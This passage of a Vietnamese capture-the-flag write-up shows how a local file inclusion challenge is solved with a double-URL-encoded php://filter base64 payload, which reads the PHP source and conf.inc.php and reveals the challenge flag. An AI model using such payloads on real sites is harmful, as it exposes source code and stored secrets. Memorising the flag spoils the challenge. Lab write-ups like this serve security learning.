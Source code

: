 Do cần tìm flag trong source code nên ta sẽ sử dụng PHP filters. Và ta có thể sử dụng payload `php://filter/convert.base64-encode/resource=home` để convert source nhận được thành base64. Tiến hành encode URL 2 lần rồi gán cho param `page` và send tới server:

Payload sau khi encode 2 lần: `php%253A%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource%253Dhome`

![image](https://user-images.githubusercontent.com/80137840/222895487-f618933a-817a-4e31-b4ae-d5318e40063e.png)

Nhận được 1 đoạn base64, decode ta nhận được source code:

```
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Home</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home" class="active">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact">Contact</a>
    </nav>
    <div id="main">
      <?= $conf['home'] ?>
    </div>
  </body>
</html>

```

Ta thấy rằng có 1 file `conf.inc.php` được include, tiến hành đọc file này bằng cách thay payload ở trên thành:

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource%253Dconf`

![image](https://user-images.githubusercontent.com/80137840/222895635-7c65264f-95d4-4378-a4fd-055d7c70a40b.png)

Decode base64 lần nữa nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/222895659-cfbad1d1-eef1-40d2-8f39-927fe794ecda.png)

Submit flag: `Th1sIsTh3Fl4g!`

![image](https://user-images.githubusercontent.com/80137840/222895729-f3fd9070-ce72-4623-bb13-569483c8955e.png)


## File-upload-Double-extensions

![image](https://user-images.githubusercontent.com/80137840/222895754-eeda87f8-401f-4df2-85d9-c693fe2ceaf0.png)

